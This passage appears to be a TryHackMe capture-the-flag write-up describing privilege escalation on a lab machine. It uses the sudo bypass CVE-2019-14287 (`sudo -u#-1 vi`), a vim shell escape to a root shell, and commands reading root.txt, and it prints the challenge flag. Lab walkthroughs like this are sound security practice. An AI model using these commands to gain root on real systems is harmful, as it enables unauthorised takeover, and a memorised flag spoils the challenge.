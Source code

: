 2. `id -u`: 

- Type `id -u` in the terminal.
- If the output is `0`, you have root privileges.


honestly I search around for an exploit related to the sudo version of the box but I couldn't find anything that worked. I had to reference a writeup to find

https://www.exploit-db.com/exploits/47502

CVE 2019-14287 (ask AI how this exploit works for explanation in writeup)

run the following:

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

now you are in vim editor.
press `esc` key and type a : (colon) to execute commands

run !whoami  in vim

and now you can see you are root

so now we can run the following command in the vim editor:

!/bin/bash

now we have a root shell.

```bash
find / -name root.txt 2>/dev/null
cat /root/root.txt
```

now we have the flag

THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}


